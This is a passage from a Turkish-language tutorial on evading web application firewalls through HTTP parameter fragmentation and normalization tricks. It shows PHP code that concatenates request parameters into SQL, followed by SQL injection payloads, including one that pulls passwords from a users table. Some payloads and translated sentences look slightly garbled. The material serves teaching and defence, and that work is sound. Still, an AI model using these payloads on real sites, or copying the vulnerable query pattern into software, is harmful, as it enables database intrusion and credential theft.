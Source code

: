 ### HTTP Parametresini Bölmek 
HTTP Parametre parçalanması, HPP’ye benzer, ancak aynı parametreyi tekrar tekrar kullanmıyoruz. HPF’de, birden fazla parametresi olan web sayfalarına saldırıyoruz ve enjekte etmeye çalıştığımız SQL sorgusu, mevcut parametrelerin sayısı kadar parçaya bölünüyor. Savunmasız koda bir örnek şunlar olabilir:
```
Query(“select * from table where a=”.$_GET[‘a’].” and b=”.$_GET[‘b’]);
```
```
Query(“select * from table where a=”.$_GET[‘a’].” and b=”.$_GET[‘b’].” limit
```
Gördüğünüz gibi, bu sayfa a ve b olmak üzere iki parametresi olan bir sorgu üretir ve ikisini de sunucuya gönderir. Aşağıdakileri sağlayarak:

Aşağıdaki tüm sorguları enjekte edildikten sonra yorumluyoruz ve bu istek kimsenin saldırıyı gerçekleştirmesine izin vermiyor, çünkü savunmasız kodda AND operatörüne sahip olduğunu görebiliyoruz, bu yüzden her iki parametreye de ihtiyacı var.

Kodu bu şekilde kullanmak için önceki sorgumuzu şunun gibi değiştirebiliriz:
```
/?a=1+union/*&b=*/select+1,2
```
Burada, sorguyu her iki parametrede de ayırdığımızı görebilirsiniz, böylece her iki parametre de mevcut olduğundan kod True olur ve SQL açıklamasını doğru yerlere ekleriz, böylece parametreler sonunda yorumlanır, ve sorgu tek parça halinde birleştirilecektir. İlk savunmasız koddan son sorgu şu şekilde olacaktır:
```
select * from table where a=1 union/* and b=*/select 1,2
```
İkiden fazla parametresi olan başka bir örnek şunlar olabilir:
```
/?a=1+union/*&b=*/select+1,password/*&c=*/from+users-
```
Aynısı burada da geçerlidir, üç parçalı parçalama için, çünkü üç parametremiz var. Bu durumda son SQL parametresi şöyle olacaktır:
```
select * from table where a=1 union/* and b=*/select 1,pass/*limit */from users
```

Önceki örneklerde pek çok kez, gerçekten bahsetmeden normalleşmeden bahsettik. Normalleştirme, WAF’ın WAF’ın da çıkardığı anahtar kelimelerin içine çıkardığı yorumları ve diğer sembolleri ekleme işlemidir, bu nedenle nihai sonuç, veritabanında yürütülmesini istediğimiz istenen sorgumuz olacaktır. Bu gerçekten iyi bir WAF atlama yöntemidir, ancak WAF’ın başarılı olmak için saldırıda kullandığı bazı filtreleri bilmemiz gerekir.

Daha önce gördüğümüz örnekte, WAF’dan (/? A = 1 + union + select + 1,2 /*) filtreleme nedeniyle, kimsenin bir saldırı yapmasına izin vermeyen , aşağıdakileri ekleyebiliriz;
```
/?a=1/*union*/union/*select*/select+1,2/*
```
Burada WAF’ta buna karşılık gelen bir güvenlik açığı varsa, bu istek sunucuda başarıyla gerçekleştirilecektir. WAF tarafından işlendikten sonra istek şu hale gelecektir:
```
?a=1/*uniX on*/union/*sel X ect*/select+1,2/*
```
Bu örnek, tehlikeli trafiğin WAF tarafından temizlenmesi durumunda işe yarar, tüm talebin veya saldırı kaynağının engellenmesi durumunda değildir. Benzer şekilde, aşağıdaki istek kimsenin bu sorguyu gerçekleştirmesine izin vermez:
```
/?id=1+union+select+1,2,3/*
```
Ancak bunu böyle bir şeye değiştirirsek ve WAF normalleştirme tekniklerine karşı savunmasız kalır:
```
/?id=1+un/**/ion+sel/**/ect+1,2,3-
```
Bu sorgu tamamen SQL veritabanında yürütülecek ve şuna benzer şekilde görünecektir:
```
SELECT * from table where id =1 union select 1,2,3-
```
